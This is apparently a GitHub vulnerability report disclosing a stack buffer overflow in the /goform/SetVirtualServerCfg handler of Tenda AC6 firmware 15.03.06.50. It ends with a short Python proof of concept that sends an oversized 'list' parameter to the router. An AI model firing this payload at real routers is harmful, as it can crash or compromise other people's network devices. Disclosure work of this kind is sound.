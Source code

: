 # Bug Report: Buffer Overflow in Tenda AC6 15.03.06.50 Router
A critical stack-based buffer overflow vulnerability has been discovered in the Tenda AC6 router firmware version 15.03.06.50. The vulnerability exists in the `/goform/SetVirtualServerCfg` HTTP request handler and can be exploited by remote attackers to achieve code execution or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow exists in the HTTP request handler for the `/goform/SetVirtualServerCfg` endpoint. The vulnerability is triggered when processing requests containing the following parameters with excessive data lengths: `list`.

![alt text](image-2.png)
![alt text](image-3.png)
![alt text](image-4.png)

## poc
![alt text](image.png)
![alt text](image-1.png)

## reproduce

```python
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'list': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = b'192.168.1.1,8080,80,' + 0xf0 * b'A'
send_payload("http://10.10.10.1/goform/SetVirtualServerCfg", payload)
```